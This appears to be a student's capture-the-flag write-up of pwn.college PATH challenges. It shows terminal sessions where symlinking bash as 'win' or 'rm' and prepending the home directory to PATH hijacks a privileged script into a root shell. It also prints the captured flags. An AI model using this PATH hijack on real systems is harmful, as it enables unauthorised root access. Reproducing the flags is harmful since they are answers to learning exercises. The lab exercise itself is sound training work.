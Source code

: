 # Pondering PATH
## The PATH variable
### Learnings: Learnt how to use the PATH command
```
PATH=""
hacker@path~the-path-variable:~$ ls
ssh-entrypoint: ls: No such file or directory
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{s4IR1SQPk12h_Ns-suNJxENpnXX.dZzNwUDL1kTN0czW}
```

## Setting Path
Followed the instructions to reach the flag.
```
PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{glp4u1GsmGQWKWoVg3XScWjR7G2.dVzNyUDL1kTN0czW}
```

## Adding Commands
### References: Youtube
 It was a bit hard as I could not properly figure out what to be done, had to refer youtube video for help
```
 ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# cat /flag
pwn.college{8p3DsIjFLy7BX6eMHCqAzE_m7mb.dZzNyUDL1kTN0czW}
```


## Hijacking Commands
Similar to the previous one , was a bit difficult.
```
 ln -s /usr/bin/bash ./rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker//rm. Executing!
/flag: line 1: pwn.college{kLZv9c000GBjtgZ-ZyU6nET5or8.ddzNyUDL1kTN0czW}
```
